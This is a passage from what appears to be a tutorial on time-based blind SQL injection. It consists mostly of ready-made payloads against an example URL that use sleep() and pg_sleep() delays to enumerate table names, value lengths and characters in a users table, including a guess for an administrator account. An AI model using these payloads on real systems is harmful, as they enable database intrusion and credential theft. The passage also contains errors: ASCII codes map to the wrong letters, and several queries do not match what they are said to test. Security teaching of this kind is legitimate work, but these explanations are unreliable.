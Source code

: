   ```http://domain.com/index.php?id=15'XOR(if(now()=sysdate(),sleep(5*5),0))OR'```  
  1st character: 110 -> **u**  
  2nd character: 115 -> **s**  
  3rd character: 101 -> **e**  
  4th character: 114 -> **r**  
  5th character: 115 -> **s**  
  
  All 5 charachters combined together will be the first table name: **users**
  
  **Retrieve length of column name**
  
  Using the same method as before, enumerate the length of column name.
  
  Given below query will test for string length is equal to 6 or not:  
  ```http://domain.com/index.php?id=1' SELECT CASE WHEN (length((select username from users limit 0,1)) = 6) THEN pg_sleep(10) ELSE pg_sleep(0) END--+```  
  The response is quick, the length of the first column of **users** table, is not 6.
  
  Given below query will test for string length is equal to 4 or not:  
  ```http://domain.com/index.php?id=1' SELECT CASE WHEN (length((select username from users limit 0,1)) = 4) THEN pg_sleep(10) ELSE pg_sleep(0) END--+```  
  The response was longer than 10 seconds, the first column is 4 characters long.
  
  Using the same method, you can also enumerate other columns.
  
  Enumerate the length of second column if it is 6 or not:  
  ```http://domain.com/index.php?id=1' SELECT CASE WHEN (length((select username from users limit 1,1)) = 6) THEN pg_sleep(10) ELSE pg_sleep(0) END--+```  
  The response is quick, let's keep trying.
  
  Enumerate the length of second column if it is 5 or not:  
  ```http://domain.com/index.php?id=1' SELECT CASE WHEN (length((select username from users limit 1,1)) = 5) THEN pg_sleep(10) ELSE pg_sleep(0) END--+```
  
  And so on...
  
  ***Alternative way of finding columns name by bruteforcing them***
  
  ```http://domain.com/index.php?id=1' SELECT CASE WHEN (username='administrator') THEN pg_sleep(10) ELSE pg_sleep(0) END FROM users--+```  
  If the username **administrator** exists, you should except a response delay of 10 seconds, otherwise keep trying other methods.
  
  **Retrieve column name**
  
  Since we know the length of column name is 4, let's find out the characters one by one.
  
  Given below query will test if the first character of the first column name is ascii 101 (e):  
  ```http://domain.com/index.php?id=1' SELECT CASE WHEN (ascii(substr((select username from users limit 0,1) ,1,1)) > 100) THEN pg_sleep(10) ELSE pg_sleep(0) END--+```
  The response is quick, the guess was not correct.
  
  Given below query will test if the first character of the first column name is ascii 112 (p):  
  ```http://domain.com/index.php?id=1' SELECT CASE WHEN (ascii(substr((select username from users limit 0,1) ,1,1)) > 100) THEN pg_sleep(10) ELSE pg_sleep(0) END--+```
  
  Given below query will test if the third character of the third column name is ascii 115 (s):  
  ```http://domain.com/index.php?id=1' SELECT CASE WHEN (ascii(substr((select username from users limit 2,1) ,1,1)) > 114) THEN pg_sleep(10) ELSE pg_sleep(0) END--```
  
  And so on..
  
  1st character: 110 -> **p**  
  2nd character: 97 -> **a**  
  3rd character: 115 -> **s**  
  4th character: 115 -> **s**  
  
  All 4 charachters combined together will be the column table name: pass
